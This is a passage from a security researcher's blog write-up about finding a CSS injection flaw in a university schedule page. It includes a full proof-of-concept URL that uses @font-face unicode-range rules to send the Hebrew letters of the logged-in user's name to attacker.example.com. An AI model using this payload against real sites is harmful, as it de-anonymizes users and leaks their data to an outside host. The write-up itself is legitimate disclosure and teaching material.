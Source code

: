 I didn't find a way to inject a script without triggering the browser XSS protection, but I noticed that I could inject a CSS style, an attack known as CSS injection:  
[/weekplan.php?SEM=201801&RGS=2341241123412712%22%3E%3Cstyle%3Eh3{color:red}%3C/style%3E](https://michaelm.cf/rishum_xss_demo/weekplan.php?SEM=201801&RGS=2341241123412712%22%3E%3Cstyle%3Eh3{color:red}%3C/style%3E)

CSS injection is much more limited than XSS, but it doesn't trigger the browser XSS protection, so I began looking for a way to exploit it. The schedule preview page displays the name of the logged in user, so my idea was to somehow fetch this name via CSS and send it to a remote server of mine. For a start, I saw that I could use the `div > h3` CSS selector to match the name on the page.

While looking for an attack, I quickly found that there's a way to [steal element attributes via CSS](http://eaea.sirdarckcat.net/cssar/v2/). That's interesting, but unfortunately didn't help in my case, since the name was contained in a `div` node, not in an attribute. I kept looking for attacks and stumbled upon the following: [Abusing unicode-range of @font-face](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) by Masato Kinugawa (yes, the same guy who authored the XSS Filter Bypass Cheat Sheet, looks like he knows his way around XSS!). The attack allows the perpetrator to get the letters in a text node, but doesn't fetch duplicates and doesn't guarantee the character order. I quickly made a POC:  
[/weekplan.php?SEM=201801&RGS=2341241123412712%22%3E**_(payload)_**](https://michaelm.cf/rishum_xss_demo/weekplan.php?SEM=201801&RGS=2341241123412712%22%3E%3Cstyle%3E@font-face{font-family:poc;src:url(https://attacker.example.com/?Alef);unicode-range:U%2B05D0;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Bet);unicode-range:U%2B05D1;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Gimel);unicode-range:U%2B05D2;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Dalet);unicode-range:U%2B05D3;}@font-face{font-family:poc;src:url(https://attacker.example.com/?He);unicode-range:U%2B05D4;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Vav);unicode-range:U%2B05D5;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Zayin);unicode-range:U%2B05D6;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Het);unicode-range:U%2B05D7;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Tet);unicode-range:U%2B05D8;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Yod);unicode-range:U%2B05D9;}@font-face{font-family:poc;src:url(https://attacker.example.com/?KafSofit);unicode-range:U%2B05DA;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Kaf);unicode-range:U%2B05DB;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Lamed);unicode-range:U%2B05DC;}@font-face{font-family:poc;src:url(https://attacker.example.com/?MemSofit);unicode-range:U%2B05DD;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Mem);unicode-range:U%2B05DE;}@font-face{font-family:poc;src:url(https://attacker.example.com/?NunSofit);unicode-range:U%2B05DF;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Nun);unicode-range:U%2B05E0;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Samekh);unicode-range:U%2B05E1;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Ayin);unicode-range:U%2B05E2;}@font-face{font-family:poc;src:url(https://attacker.example.com/?PeSofit);unicode-range:U%2B05E3;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Pe);unicode-range:U%2B05E4;}@font-face{font-family:poc;src:url(https://attacker.example.com/?TsadiSofit);unicode-range:U%2B05E5;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Tsadi);unicode-range:U%2B05E6;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Qof);unicode-range:U%2B05E7;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Resh);unicode-range:U%2B05E8;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Shin);unicode-range:U%2B05E9;}@font-face{font-family:poc;src:url(https://attacker.example.com/?Tav);unicode-range:U%2B05EA;}div%3Eh3{font-family:poc;}%3C/style%3E)

![Hebrew letters of my name in unspecified order]({{ site.baseurl }}/images/The-De-anonymization-of-the-Technion-Confessions-Admin/Hebrew-letters-of-my-name-in-unspecified-order.png)  
_Hebrew letters of my name in unspecified order._

It works, but I wasn't satisfied, since the attack might not yield enough information to get the real name of the victim. So I decided to look for a better attack.
